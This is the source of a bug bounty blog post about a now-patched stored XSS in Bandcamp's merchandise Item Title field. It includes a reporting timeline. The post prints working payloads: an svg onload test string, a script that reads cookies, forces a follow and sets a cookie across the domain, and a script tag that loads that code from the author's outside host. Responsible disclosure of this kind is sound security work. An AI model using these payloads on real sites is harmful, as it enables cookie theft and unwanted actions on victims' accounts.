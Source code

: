 ```yaml
---
layout: post
title: "Stored XSS in BandCamp"
author: Corben Leo
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Recently, while my friend <a href="https://twitter.com/_psycho_mantis" rel="noopener noreferrer" style="color:#DC0739;text-decoration:none;"><b>Alyssa Herrera</b></a> and I were collaborating on finding ffmpeg vulnerabilities in bug bounty programs, we came to learn that **Bandcamp** ran a bug bounty program. If you have never heard of BandCamp, it is essentially a platform that allows artists, fans, and labels to interact, connect, and support each other.

I instantly was curious to see what I could find, so I signed up for an artist account and created a Bandcamp page. The first function I started to test was the **Add Music** function. This part of the site allows artists to add albums and tracks. I tested for IDOR and XSS, but sadly it wasn't vulnerable to either.

The next function I thought I wanted to test was the **Add Merch** function. There were 2 main parameters in this function that I wanted to test for XSS in immediately. I wanted to see if either the *Item Title* or *Description* accepted / rendered any HTML.
I put in a simple XSS payload for both:  `<svg/onload=confirm(0)>`

I saved and published the new "merchandise", and voila:
NOTHING happened. It was sanitized and I was bummed that it didn't work.
Then I saw the **Buy Now** button, so I clicked it, which opened a new frame and my XSS fired! They were not correctly sanitizing the **Item Title** in this frame, thus allowing an attacker to simply insert any HTML or javascript.

I am always reluctant in submitting an XSS with merely alert() because it just shows I was too lazy to actually come up with a cool proof-of-concept.
With that in mind, I came up with this POC:
```javascript
alert("Stored XSS on BandCamp");
alert("Your cookies: " + document.cookie);
document.getElementById("follow-unfollow").click();alert("Thanks for the follow :^D");
document.cookie="hacker=cdl;path=/;domain=.bandcamp.com";  
```
Then changed the **Item Title** to `<script src=//sxcurity.pro/bandcamp.js></script>`
which made the victim follow me and set the cookie "hacker" to "cdl" for bandcamp.com and all subdomains in their browser!
<br>Proof of concept video:
<iframe src="https://player.vimeo.com/video/224109910" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (6/29/2017) Reported XSS to Bandcamp via Email
- (6/30/2017) Confirmed, Patched, & Awarded with a $500 bounty!  

<br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/sxcurity"  target="_blank" rel="noopener noreferrer">https://github.com/sxcurity</a>

